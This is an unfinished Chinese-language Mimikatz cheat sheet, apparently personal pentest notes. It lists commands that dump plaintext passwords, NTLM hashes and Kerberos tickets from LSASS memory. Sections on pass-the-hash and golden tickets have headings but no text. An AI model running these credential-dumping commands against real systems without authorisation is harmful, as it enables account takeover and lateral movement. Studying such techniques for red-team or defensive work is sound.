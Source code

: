 ```yaml
---
description: 凭证提取、哈希传递、票据伪造、哈希注入、NTLM中继
---
```


# ✔️ Mimikatz

## Tips

* 可从机器内存中提取：
  * 明文密码
  * 密码Hash值
  * PIN码
  * Kerberos票据

## 攻击手法

### 检索已缓存凭证

* 从LSASS进程中转储其他用户凭证，然后以这些用户身份进行登录：

```powershell
mimikatz.exe
# 提权以执行高权限操作
privilege::debug
# 枚举所有登录用户的凭证
sekurlsa::logonpasswords
```

* 同理，从LSASS进程中转储所有Kerberos票据：

```powershell
sekurlsa::tickets
```

* 其他：

```powershell
# 只抓取内存中保存的用户明文密码
sekurlsa::wdigest
# 只抓取内存中保存的用户Hash值
sekurlsa::msv
# 只抓取内存中保存的用户密码的Key值
sekurlsa::ekeys
```

### 哈希传递 (Pass The Hash)





### 票据传递 (Pass The Ticket)







### 绕过哈希 (Overpass The Hash)





### 黄金票据 (Golden Ticket)





